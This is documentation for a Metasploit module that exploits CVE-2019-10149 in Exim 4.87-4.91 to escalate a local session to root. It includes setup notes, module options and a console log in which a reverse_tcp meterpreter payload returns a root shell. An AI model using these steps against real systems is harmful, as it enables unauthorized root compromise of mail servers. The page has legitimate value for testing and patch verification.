 # Vulnerable Application

Exim 4.87 - 4.91 Local Privilege Escalation

This module implements a flaw found in Exim versions 4.87 to 4.91 (inclusive). Improper validation of recipient address in deliver_message() function in /src/deliver.c may lead to remote command execution (CVE-2019-10149).

Both meterpreter shell and classic shell are supported but the behavior will be slightly different:

- For both types of shell, the exploit will try to create a new session with the payload you provide. If the exploit goes well, this will be a root session.
- If you have a classic shell and the exploit couldn't create a new session, it will try to upgrade your current session to a root shell.

# Creating A Testing Environment

You basically just need to have a exim (between 4.87 and 4.91 inclusive) running and listening on a port (port 25 by default).
For my tests, I used a VM with Ubuntu 18.04 LTS and exim 4.89 (I tested all the versions from 4.87 to 4.91). The exim source code can be downloaded from the official website (all the old versions can be found).
You can also use this good Docker image which sets up a container with a vulnerable exim version running (https://github.com/dhn/exploits/tree/master/CVE-2019-10149).

Before using the exploit, make sure exim is actually listening on a port (it may sound stupid, but I struggled a bit when creating a testing environment). However, you should not have any problem if you use the Docker image linked above.

# Verification Steps

1. `use exploit/linux/local/exim4_deliver_message_priv_esc`
2. `set SESSION [session]`
3. `set PAYLOAD [payload]`
4. `set LHOST [lhost]`
5. `set LPORT [lport]`
6. `exploit`

# Options

## PAYLOAD

Set this option to choose which type of root session you want to create (obviously you should try a meterpreter payload first).

## EXIMPATH

The path to the exim executable that is running on the target machine. This is used to check the version of exim to know whether it is vulnerable. If you let this option unset, the exploit will assume that the directory of exim is in the PATH environment variable. 

## EXIMPORT

The port that exim is listening to. On most cases it will be port 25 (which is the default).

## WritableDir

A directory where we can write files (default is /tmp).


# Scenarios

## Privilege escalation starting with a meterpreter shell

```
meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > 
Background session 1? [y/N]  
msf5 exploit(multi/handler) > use exploit/linux/local/exim4_deliver_message_priv_esc 
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set session 1
session => 1
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set lhost 192.168.0.50
lhost => 192.168.0.50
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set lport 13371
lport => 13371
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set EXIMPATH /usr/exim/bin/exim
EXIMPATH => /usr/exim/bin/exim
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > check
[*] The target appears to be vulnerable.
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > exploit

[*] Started reverse TCP handler on 192.168.0.50:13371 
[*] Payload sent, wait a few seconds...
[*] Sending stage (985320 bytes) to 192.168.0.80
[*] Meterpreter session 2 opened (192.168.0.50:13371 -> 192.168.0.80:45562) at 2019-07-07 23:46:37 +0100
[+] Deleted /tmp/eMhzFtUYGQ
[+] Check session 2, you should have a root shell!

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.0.80
OS           : Ubuntu 18.04 (Linux 4.18.0-25-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >
```
